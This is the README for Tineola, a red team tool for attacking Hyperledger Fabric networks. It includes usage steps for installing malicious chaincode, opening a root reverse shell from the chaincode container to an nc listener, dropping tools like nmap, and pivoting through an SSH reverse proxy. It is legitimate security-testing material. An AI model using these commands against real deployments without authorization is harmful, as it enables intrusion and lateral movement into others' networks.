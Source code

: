 # Introducing Tineola
Tineola is a red team tool for interfacing with and abusing **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Travis Biehn, and Koen Buyens.

The Tineola Whitepaper accompaning the release of the tool can be found on [Github](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf).

# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a .tineola-rc file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive commandline application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```
After these commands, the admin user has been enrolled into tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and reciving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.
Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.
Both actions use the "channel-query-cc" tineola command with or without the "--invoke" flag.
Invocation requires an orderer to be set.
Note: invoking requires the endorsment policy to be met, where as querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.
Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the tineola chaincode

Start a tcp listener on the tineola machine (10.0.0.5 in this example)
```
nc -l 31337
```

Use tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container.
This container is a bare ubuntu image.
Use `apt update` and `apt install ...` to download packages if the peer is internet connected.
If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the tineola machine is at 10.0.0.5, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the tineola machine.
An allowed ssh private key should be present at ~/tineola-ssh-key for tineola to use.
Note: make sure to disallow this key after using Tineola.
Tineola makes no effort to encrypt or otherwise hide this key durring or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated ising `ssh-keygen` and installed to ~/.ssh/authorized keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form IP:PORT and is 10.10.0.100:1234 in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to a application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability orginating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (defaukt: localhost:8888).
The format of HTTP requests should be:
```
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The HLF-Invoke header controls whether or not to send the request for ordering.
Then HLF-Invoke is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

# License
This software is released by Synopsys under the MIT license. 
